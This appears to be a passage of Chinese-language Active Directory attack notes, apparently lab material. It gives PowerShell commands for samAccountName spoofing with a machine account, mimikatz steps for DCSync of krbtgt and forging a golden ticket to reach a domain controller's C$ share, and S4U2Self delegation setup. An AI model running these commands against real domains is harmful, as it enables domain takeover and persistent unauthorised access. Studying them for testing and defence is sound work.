 ~~~shell
	import-Module ./Powermaster.ps1
	import-Module ./Powerview.ps1
1、$password = ConvertTo-SecureString '1qaz@WSX' -AsPlainText -Force
2、New-MachineAccount -MachineAccount "demo64" -Password $($password) -Domain qax.com -DomainController "qaxdc1.qax.com" -Verbose
3、Get-DomainObject "CN=demo64,CN=Computers,DC=QAX,DC=com" |select serviceprincipalname
4、Set-DomainObject "CN=demo64,CN=Computers,DC=qax,DC=com" -Clear 'serviceprincipalname' -Verbose
5、Set-MachineAccountAttribute -MachineAccount "demo64" -Value "qaxdc1" -Attribute samaccountname -Verbose
//去发第一次请求
6、5、Set-MachineAccountAttribute -MachineAccount "demo64" -Value "qaxdc1" -Attribute samaccountname -Verbose
//去发第二次请求

~~~



### 3、黄金票据（权限维持）

（没有1、2步骤）提权后，拥有了krbtgt的hash，就可以跳过AS自己给自己签发任意用户的tgt票据。

~~~shell
1、命令：mimikatz # lsadump::dcsync /domain:qax.com /user:krbtgt
 //复制数据中的 sid（去掉502）和aes 256_hmac的值
2、命令：kerberos：：golden /dmain:zxm.qianxin /sid:(去掉502不然会冲突报错) /aes256:xxxx...xxxxx /user:administrator(伪装的身份) /ticket:golden.kirbi(生成票据名，不一定非要为golden)
3、
kerberos：：purge 清空票据
kerberos：：ptt golden.kirbi 导入票据（刚刚做的黄金票据）
4、
在新的终端 执行  dir \\WIN-HFTNEP45SV8(域控).zxm.qianxin（域）\c$
访问成功 
klist 查看票据 
~~~



### 4、白银票据（服务单一票据）

白银票据只有5、6两步。



## 其它协议

### 1、S4U2Self

（Service for User to Self）服务为用户申请了票据（申请的是用户到服务的票据）：client和service是同一个

~~~shell
SPN委派：为别人申请一个票据
# 过程（只有1234步，第三步勾选forwardable）
	先创建用户，设置SPN(service principal name)，再在属性里面的委派设为可以委派。
1、client向service server发起请求（client有了委派的权限，类似一个server）
2、service向KDC申请一个client到service的票据（第三步：pa-for-user）
3、service告诉client:你可以访问我了

# 命令
DC win8：
	net user s4u2 passwd /add /domain
	setspn -A MSSQLSvc/qaxdc1.qax.com s4u2
Client win10：
	setspn -Q */*
~~~
